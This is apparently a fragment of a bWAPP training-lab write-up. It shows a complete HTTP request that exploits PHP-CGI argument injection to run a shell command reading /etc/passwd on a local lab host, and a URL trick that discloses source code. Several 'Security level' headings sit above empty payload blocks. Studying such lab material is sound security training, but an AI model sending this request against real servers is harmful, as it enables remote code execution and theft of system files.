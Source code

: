 
### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  PHP CGI Remote Code Execution 💀

```
POST /bWAPP/admin/phpinfo.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.1.20
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 70
Cookie: security_level=0; PHPSESSID=e27e4148fbb0b82028e1cd6e159f4e7a
Connection: close

<?php $r; exec('cat /etc/passwd', $r); echo implode($r, "\n"); die; ?>
```

There is also possibility to display source code

```
http://192.168.1.20/bWAPP/admin/phpinfo.php?-s
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 
